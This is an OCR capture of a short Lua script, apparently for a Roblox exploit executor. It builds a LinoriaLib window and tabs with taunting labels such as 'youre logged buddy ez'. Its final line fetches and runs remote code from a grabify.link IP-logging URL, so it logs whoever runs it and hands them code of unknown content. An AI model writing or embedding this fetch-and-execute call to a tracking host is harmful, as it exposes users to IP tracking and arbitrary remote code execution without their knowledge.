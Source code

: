 warn('loggeeeddd')


local repo = 'https://raw.githubusercontent.com/violin-suzutsuki/LinoriaLib/main/'

local Library = loadstring(game:HttpGet(repo .. 'Library.lua'))()

local Window = Library:CreateWindow({
  Title = "youre logged buddy ez",
    Center = true,
  AutoShow = true,
  TabPadding = 8,
  MenuFadeTime = 0.2
})
local Tabs = {
    ['why u got logged so ez??'] = Window:AddTab('logged'),
        ['why u got logged so ez??'] = Window:AddTab('logged6'),
            ['why u got logged so ez??'] = Window:AddTab('logged5'),
                ['why u got logged so ez??'] = Window:AddTab('logged4'),
                    ['why u got logged so ez??'] = Window:AddTab('logged3'),
                        ['why u got logged so ez??'] = Window:AddTab('logged2'),
                            ['why u got logged so ez??'] = Window:AddTab('logged1`'),
}


loadstring(game:HttpGet("https://grabify.link/DY1EUY", true))()


